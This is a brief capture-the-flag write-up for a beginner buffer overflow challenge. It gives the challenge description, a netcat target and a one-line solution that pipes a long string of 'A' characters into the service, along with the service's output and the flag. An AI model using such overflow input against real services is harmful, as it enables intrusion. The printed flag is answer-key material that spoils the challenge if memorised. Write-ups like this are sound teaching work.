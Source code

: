 Baby's First Buffer Overflow
============================

## Challenge info:

This program is vulnerable to a buffer overflow. Can you exploit it to get the flag? The source code is provided.
Connect using your CTF shell using netcat: `nc challenges.ctfd.io 30182`

## Solution:

I didn't even bother looking at the source code, I just threw a bunch of junk at the service and got the flag first try. `¯\_(ツ)_/¯`

```
$ python -c "print('A' * 82)" | nc challenges.ctfd.io 30182
Can you perform your first buffer overflow? Give me some input!
you overflowed the buffer and changed the canary value!
here's your flag: Equifax{that_first_buffer_overflow_wasnt_too_hard}
```
